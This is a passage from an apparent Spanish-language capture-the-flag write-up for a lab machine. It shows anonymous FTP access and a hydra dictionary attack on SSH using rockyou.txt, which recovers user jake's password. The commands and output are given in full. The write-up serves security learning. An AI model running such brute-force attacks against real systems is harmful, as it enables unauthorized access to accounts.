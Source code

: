 Tenemos tres puertos abiertos:

* *21/tcp* con un servicio ftp escuchando
* *22/tcp* con un servicio ssh escuchando
* *80/tcp* con un servicio htttp escuchando

El volcado de **nmap** nos cuenta que el servidor FTP soporta login anónimo. Vamos a por ello.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/BrooklynNineNine]
└─$ ftp 10.10.190.53
Connected to 10.10.190.53.
220 (vsFTPd 3.0.3)
Name (10.10.190.53:ewan67): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||17845|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
229 Entering Extended Passive Mode (|||50254|)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |*************************************************************************************************************************|   119        1.66 KiB/s    00:00 ETA
226 Transfer complete.
119 bytes received in 00:00 (1.08 KiB/s)
ftp> exit
221 Goodbye.
```

Abrimos el fichero que acabamos de descargarnos y nos encontramos una nota de *Amy* para *Jake* solicitándole que cambie su contraseña para que no se enfade *Holt*. Tres usuarios.

Vamos a probar con **hydra** contra el servicio ssh utilizando el usuario *jake* y *rockyou.txt* como diccionario a ver si conseguimos algo. Para empezar, localizamos el diccionario en nuestro equipo.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/BrooklynNineNine]
└─$ locate rockyou.txt
/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz
/usr/share/wordlists/rockyou.txt
```

Y lanzamos **hydra**:

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/BrooklynNineNine]
└─$ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.190.53:22  
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-16 19:31:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.190.53:22/
[22][ssh] host: 10.10.190.53   login: jake   password: 987654321
```